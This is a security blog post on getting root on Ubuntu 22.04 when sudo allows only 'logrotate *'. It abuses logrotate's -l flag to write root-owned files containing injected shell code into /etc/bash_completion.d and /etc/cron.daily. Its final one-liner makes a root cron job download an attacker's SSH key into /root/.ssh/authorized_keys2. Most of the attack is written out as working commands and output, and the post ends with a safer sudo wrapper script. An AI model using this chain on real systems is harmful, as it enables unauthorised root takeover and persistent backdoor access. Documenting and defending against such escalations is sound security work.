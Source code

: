 ```yaml
---
layout: post
title: "root with a single command: sudo logrotate"
author: "Joshua Rogers"
categories: security
---
```


The scenario is this: a brand new Ubuntu 22.04 server has an account which is restricted to running `sudo logrotate *`.  Can we get root? Short answer: Yes. I couldn't find much online about this type of exploitation of logrotate, so let's document something for future use.

---

Note: as mentioned, the _user_ is limited to _only_ running `sudo logrotate *`. No other command is possible. This could be either through some `rbash`  setup, some ForceCommand setting in ssh, or something else. The point is: the _user_ cannot run anything other than `sudo logrotate`. /etc/sudoers contains the following:

```bash
user ALL=(ALL:ALL) NOPASSWD: /usr/sbin/logrotate *
```

So we need to find some functionality __built into logrotate__ which will let us elevate to unrestricted root.

---

Let's first look at logrotate's help text:
```bash
$ logrotate --help
Usage: logrotate [OPTION...] <configfile>
[..]
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of `/usr/bin/mail')
  -s, --state=statefile     Path of state file
  -l, --log=logfile         Log file or 'syslog' to log to syslog
```

My first instinct was to use something like `sudo logrotate -m '/usr/bin/uname'`. The manual states that this flag is for:
```bash
       -m, --mail command
              Tells logrotate which command to use when mailing logs.
```

A logrotate configuration file may specify an email address to send log files when they are rotated:
```
       mail address: When a log is rotated out of existence, it is mailed to address.  If no mail should be generated by a particular log, the nomail directive may be used.
       nomail: Do not mail old log files to any address.
       mailfirst: When using the mail command, mail the just-rotated file, instead of the about-to-expire file.
       maillast: When using the mail command, mail the about-to-expire file, instead of the just-rotated file (this is the default).
```

However, no logrotate configuration files were mailing logs:
```bash
$ grep -nrI 'mail' /etc/logrotate.*
$
```

---

So, why not just create a new configuration? No dice:
```bash
$ sudo logrotate -m '/usr/bin/uname' ./mail
Potentially dangerous mode on ./mail: 0664
error: Ignoring ./mail because it is writable by group or others.

$ chmod 600 mail

$ sudo logrotate -m '/usr/bin/uname' -f ./mail
error: Ignoring ./mail because the file owner is wrong (should be root or user with uid 0).
```
So we need a very specific type of file: owned by root, and only writable by root. I first thought some log files may work:
```bash
-rw-r--r--   1 root      root                   0 Oct  1 00:00 dpkg.log
-rw-r--r--   1 root      root                   0 Oct  1 00:00 alternatives.log
-rw-r-----   1 root      adm                46992 Sep  5 15:48 dmesg
..
```
but I couldn't find anything that would let me log to the file verbatim, or without any extra characters at the end (due to logrotate's functionality, we can effectively log to the beginning of many log files too, since we can just rotate the log if there is a configuration file in _/etc/logrotate.d/_ already.)

---

I then thought _/var/mail/root_:
```bash
$ ls -l /var/mail/root
-rw------- 1 root mail 1 Oct  1 01:07 /var/mail/root
```
It definitely fits our requirements. So let's try:
```bash
$ cat <<< "/home/user/log.log {
mail address@example.com
}" | mail -s "Email Subject" root

$ sudo logrotate -m '/usr/bin/uname' -f /var/mail/root
error: /var/mail/root:1 unknown option 'From' -- ignoring line
error: /var/mail/root:2 keyword 'Return' not properly separated, found 0x2d
```
Unfortunately logrotate completely bawks on the second line in the mail file:
```mail
From user@server  Sun Oct  1 01:10:45 2023
Return-Path: <user@server>
X-Original-To: root
Delivered-To: root@server
Received: by server (Postfix, from userid 1000)
	id D689B7E3DD; Sun,  1 Oct 2023 01:10:45 +0000 (UTC)
Subject: Email Subject
To: root@server
User-Agent: mail (GNU Mailutils 3.14)
Date: Sun,  1 Oct 2023 01:10:45 +0000
Message-Id: <20231001011045.D689B7E3DD@server>
From: User <user@server>

/home/user/log.log {
mail address@example.com
}
```
So, out of luck here, too.

---

I moved on to the `-s` flag that logrotate provides, and while it can create files as root (and overwrite those that exist), it didn't provide much value:
```bash
$ ls -l /tmp/test
-rw-r----- 1 root root 29 Oct  1 01:19 /tmp/test

$ cat /tmp/test # run as root
logrotate state -- version 2
```

---

Finally, I took a look at the `-l` flag:
```bash
$ sudo logrotate -l ./nonexist test
error: cannot stat test: No such file or directory

$ cat nonexist
error: cannot stat test: No such file or directory
Reading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

Handling 0 logs

$ ls -l nonexist
-rw-r--r-- 1 root root 952 Oct  1 01:28 nonexist
```
So we can write arbitrary data (**test** here is the arbitrary data, albeit with some garbage between it) to an arbitrary file which is owned by root. What more can we do with this?
```bash
user@server:/etc/bash_completion.d$ ls -l
total 4
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ sudo logrotate -l /etc/bash_completion.d/backdoor '2>/dev/null;uname -a; return 0;'
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory

user@server:/etc/bash_completion.d$ ls -l
total 8
-rw-r--r-- 1 root root 652 Sep 30 14:35 backdoor
-rw-r--r-- 1 root root 439 Feb 28  2023 git-prompt

user@server:/etc/bash_completion.d$ cat backdoor
error: cannot stat 2>/dev/null;uname -a; return 0;: No such file or directory
acquired lock on state file /var/lib/logrotate/statusReading state from file: /var/lib/logrotate/status
Allocating hash table for state file, size 64 entries
Creating new state
[..]

user@server:/etc/bash_completion.d$ exit
logout
Shared connection to server closed.

$ ssh user@server
Last login: Sat Sep 30 14:33:20 2023 from 10.0.0.0
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Basically, we can create an arbitrary file in `/etc/bash_completion.d/` which, if bash completion is enabled, will be sourced when a user logs into the server. The arbitrary data is `2>/dev/null;uname -a; return 0;` which effectively sends the first garbage data to _/dev/null_; executes `uname -a`; then returns, ignoring the rest of the junk data. This could be used to get a shell when a real user logs into the server, hopefully obtaining more access. Alternatively, we could create some file in _/etc/init.d/_, _/etc/profile.d/_, or overwrite _/etc/profile_. The possibilities are endless.

---

I wasn't happy with leaving it like this, so I took a further look. As it turns out, the permissions of the log files are retained too:
```bash
$ touch check-perms
$ chmod 777 check-perms
$ sudo logrotate -l ./check-perms test
error: cannot stat test: No such file or directory

$ ls -l check-perms
-rwxrwxrwx 1 user user 952 Oct  1 01:32 check-perms
```
What can we do with this?

Well, we can edit one of the scripts in _/etc/cron.daily/_:
```bash
user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 1395 Mar 12  2023 man-db

user@server:/etc/cron.daily$ sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;uname -a; exit 0;'
error: cannot stat 2>/dev/null;uname -a; exit 0;: No such file or directory

user@server:/etc/cron.daily$ ls -l man-db
-rwxr-xr-x 1 root root 652 Sep 30 14:50 man-db

user@server:/etc/cron.daily$ ./man-db
Linux server 5.15.0-83-generic #92-Ubuntu SMP Mon Aug 14 09:30:42 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
The next time the cronjob runs, our arbitrary code is executed: as root.

---

So, to answer the question: with only the `sudo logrotate` command available, can we obtain root? Yep; it's as simple as:
```bash
sudo logrotate -l /etc/cron.daily/man-db '2>/dev/null;wget host/ssh.key -O /root/.ssh/authorized_keys2; exit 0;'
```
then wait until the cronjob is run, and just ssh in. That's my solution to this problem, anyways.

---

And of course, the slightly more appropriate way to achieve the goal of allowing a normal user to rotate logs would be to allow sudo to run a wrapper script like this:
```bash
#!/bin/sh
case "$1" in
    [a-z0-9A-Z\-])
       /usr/sbin/logrotate -f /etc/logrotate.d/"$1"
        ;;
    *)
        exit 1
        ;;
esac
```

